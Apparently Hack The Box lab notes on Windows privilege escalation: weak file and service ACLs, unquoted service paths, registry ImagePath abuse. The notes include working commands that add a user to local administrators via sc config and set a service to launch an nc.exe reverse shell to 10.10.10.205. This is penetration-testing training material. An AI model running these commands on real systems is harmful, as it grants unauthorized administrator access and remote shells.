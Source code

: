 # Weak Permissions

## Permissive File System ACLs

### Sharpup

To check weak ACL

```
.\SharpUp.exe audit
```

<figure><img src="../../../.gitbook/assets/Weak Permissions.png" alt=""><figcaption></figcaption></figure>

**Checking permissions with icacls**

Previously discovered appliaction:&#x20;

```
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

<figure><img src="../../../.gitbook/assets/Weak Permissions-1.png" alt=""><figcaption></figcaption></figure>

### Replace service binary

```
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

```
sc start SecurityService
```

## Weak Service Permissions

Check sharpup again for misconfigured services:

<figure><img src="../../../.gitbook/assets/Weak Permissions-2.png" alt=""><figcaption></figcaption></figure>

&#x20;Check permission with accesschk

The flags we use, in order, are _-q_ (omit banner), _-u_ (suppress errors), _-v_ (verbose), _-c_ (specify name of a Windows service), and _-w_ (show only objects that have write access).

```
accesschk.exe /accepteula -quvcw WindscribeService
```

<figure><img src="../../../.gitbook/assets/Weak Permissions-3.png" alt=""><figcaption></figcaption></figure>

Here we can see that all Authenticated Users have SERVICE\_ALL\_ACCESS rights over the service, which means full read/write control over it.

We are not in admin group currently

### Change service binary path

```
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

Then restart service:

```
sc stop WindscribeService
sc start WindscribeService
```

Now we are in local admin group:

```
net localgroup administrators
```

Another notable example is the _Windows Update Orchestrator Service (UsoSvc)_

## Unquoted Service Path

For example: `C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe`

The following paths are search and **.exe** is implied

* `C:\Program`
* `C:\Program Files`
* `C:\Program Files (x86)\System`
* \`C:\Program Files (x86)\System Explorer\service\SystemExplorerService64\`\`

So if we can create these files we can get admin privilege:

* `C:\Program.exe\`
* `C:\Program Files (x86)\System.exe`

To find:

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

## Permissive Registry ACLs

It is also worth searching for weak service ACLs in the Windows Registry. We can do this using **accesschk**.

### Checking for Weak Service ACLs in Registry

```
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

<figure><img src="../../../.gitbook/assets/Weak Permissions-4.png" alt=""><figcaption></figcaption></figure>

We can abuse this using the PowerShell cmdlet Set-ItemProperty to change the ImagePath value, using a command such as:

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

## Modifiable Registry Autorun Binary

### Check Startup Programs

```
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```
